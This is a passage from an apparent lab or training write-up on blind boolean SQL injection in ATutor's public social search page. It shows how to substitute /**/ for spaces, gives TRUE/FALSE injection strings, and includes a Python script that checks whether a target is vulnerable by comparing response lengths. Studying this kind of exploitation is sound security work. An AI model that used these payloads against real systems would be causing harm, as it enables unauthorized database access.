


## A Small Hurdle
Extracting the data from the database with our blind SQLi, isn't as straight forward.
Our payloads cannot contain any spaces, since they are used as delimiters in the query construction process.

However, since this is an ATutor-related constraint and not something inherent to MySQL, we can replace spaces with anything that constitutes a valid space substitute in MySQL syntax.
For instance, instead of a normal query we can use the following query:

```sql
select/**/1;
```


## Baseline Exploit
Now that we are fully aware of the restrictions in place, our first goal is to create a very simple dummy TRUE/FALSE injection subquery.
The best way to exploit a blind boolean based sqli, is to compare HTML responses.
We can craft simple or even complex boolean based queries to the webserver, and then compare html responses to exfiltrate required data.

2 dummy injections are as follows:
```mysql
#TRUE STATEMENT:
AAAA')/**/or/**/(select/**/1)=1%23;

#FALSE STATMENT:
AAAA')/**/or/**/(select/**/1)=0%23
```

We can also use the atutor mysql database to confirm that these queries will work:



We see that the query returns a 1 as a boolean true result, if we change the 1 to a 0, we get a 0 as a false.

We can use our dummy injections and use a python script to check if the target is vulnerable or not:

```python
import requests
import sys

def searchFriends_sqli(ip, inj_str, query_type):
    target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if (query_type==True) and (content_length > 20):
        return True
    elif (query_type==False) and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    false_injection_string = "test')/**/or/**/(select/**/1)=0%23"
    true_injection_string  = "test')/**/or/**/(select/**/1)=1%23"

    if searchFriends_sqli(ip, true_injection_string, True):
        if searchFriends_sqli(ip, false_injection_string, False):
            print "(+) the target is vulnerable!"

if __name__ == "__main__":
    main()
```

The following sends 2 sqli payloads, if the content length(html response) is more than 20, the result of the boolean query is true.
However, if it's less than 20, it's a false.

Running the script, we find that the web app is vulnerable:

